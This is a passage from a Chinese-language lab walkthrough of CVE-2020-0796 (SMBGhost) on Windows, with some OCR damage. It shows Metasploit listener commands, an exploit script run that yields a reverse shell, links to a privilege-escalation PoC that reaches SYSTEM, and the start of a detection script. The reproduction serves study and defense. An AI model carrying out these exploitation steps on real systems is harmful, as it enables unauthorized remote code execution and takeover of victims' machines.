 `msf5 exploit(multi/handler) \> set lport 2333 \#设置监听端口msf5`\
`exploit(multi/handler) \> exploit`

执行利用poc，可以看到成功执行，在按任意键，最好回车键即可`python3 exploit.py ``­``ip 192.168.1.103`

![14.jpg](./resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId47.jpg)

![15.jpg](./resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId48.jpg)

在msf可以看到成功反弹出目标靶机的shell

### 五、CVE­2020­0796 本地提权漏洞复现

环境要求，需要windows 10 1909 x64

下 载 地 址 ：\
ed2k://\|file\|cn\_windows\_10\_business\_editions\_version\_1909\_x64\_dvd\_0ca83907.iso\|5275090944\|\
9BCD5FA6C8009E4D0260E4B23008BD47\|/

**提权POC:**

    https://download.0-sec.org/系统安全/Windows/CVE-2020-0796提权poc.zip

![16.png](./resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId50.png)

这里我新建了一个普通权限的账号，可以看到权限很小

![17.png](./resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId51.png)

在普通账号上执行cve­2020­0796­local.exe，可以看到成功提权到system权限

![18.jpg](./resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId52.jpg)

### 六、漏洞检测

![19.png](./resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId54.png)
奇 安 信 批 量 检 测 工 具 ：
*http://dl.qianxin.com/skylar6/CVE­2020­0796­Scanner.zip*

sh 脚 本 检 测 ：
[https://gist.githubusercontent.com/nikallass/40f3215e6294e94cde78ca60dbe07394/raw/84d803de9\
37f5b6810df4441cc84f0fa63991e2e/check­smb­v3.11.sh](https://gist.githubusercontent.com/nikallass/40f3215e6294e94cde78ca60dbe07394/raw/84d803de937f5b6810df4441cc84f0fa63991e2e/check-smb-v3.11.sh)

![20.png](./resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId56.png)

    #!/bin/bash
    if [ $# -eq 0 ]
      then
        echo $'Usage:\n\tcheck-smb-v3.11.sh TARGET_IP_or_CIDR'
        exit 1
    fi
    